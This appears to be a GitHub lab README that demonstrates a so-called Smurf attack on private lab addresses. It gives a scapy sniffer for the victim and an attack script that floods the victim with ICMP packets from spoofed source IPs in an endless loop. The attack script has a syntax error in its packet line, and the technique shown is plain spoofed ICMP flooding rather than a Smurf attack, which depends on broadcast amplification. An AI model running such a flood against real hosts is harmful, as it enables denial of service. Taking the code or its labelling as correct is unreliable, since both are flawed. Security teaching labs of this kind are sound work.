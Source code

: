 # Smurf Attack

Lab Environment :

Victim Ip : 10.11.137.43
Attacker Ip: 10.11.130.60

Victim Machine

We have to create a victim.py file in victim Machine 

```
#!/usr/bin/env python3

import signal
import sys

if len(sys.argv) != 2:
  print("sudo {} <pcap file name to save>".format(sys.argv[0]))
  sys.exit(1)

pktfilename = sys.argv[1]

try:
  from scapy.all import *
except ImportError:
  import os
  os.system("pip install scapy==2.5.0 matplotlib==3.8.2 pyx==0.16 vpython==7.6.4 cryptography==42.0.2")
  sys.exit(1)


def abrt_sig_hndler(sig, frame):
  print(sig)
  print(frame)
  print("Pressed Ctrl C")
  pkts = sniffer.stop()
  # pkts.summary()
  wrpcap(pktfilename, pkts, append=True)
  sys.exit(0)

signal.signal(signal.SIGINT, abrt_sig_hndler)

sniffer = AsyncSniffer()
sniffer.start()
sniffer.join()
```

after saving this code. Run this code

`sudo python3 victim.py victim_pcap.pcap`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/eeba9c88-dbaf-4158-b931-111727616abe)

Attacker Machine 

We have to create attack.py file in attacker

```
#!/usr/bin/env python

import sys

from scapy.all import *

def send_packet(srcIP, dstIP, count):
  p = IP(src=srcIP, dst=dstIP) / ICMP() "This is Attacker"
  return send(p, count=count)

if __name__ == "__main__":
  if len(sys.argv) < 3:
    print(f"sudo {sys.argv[0]} <victim IP> <random IPs for source seperated by SPACE>")
    sys.exit(1)
  dstIP = sys.argv[1]
  srcIPs = sys.argv[2:]
  while True:
    for srcIP in srcIPs:
      send_packet(srcIP, dstIP, 100)

```

after saving this code in attacker machine 
Run this code.

`sudo python3 attack.py "10.11.137.43" "10.11.137.48" "10.11.137.49" "10.11.137.42" "10.11.137.5"`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/94022886-536e-4246-8277-4216427bd255)

We can view in Wireshark that pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/da932e86-fc54-4af2-995e-2d576d5e72bc)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1387fd57-0f62-48c5-bb03-482de465eb10)


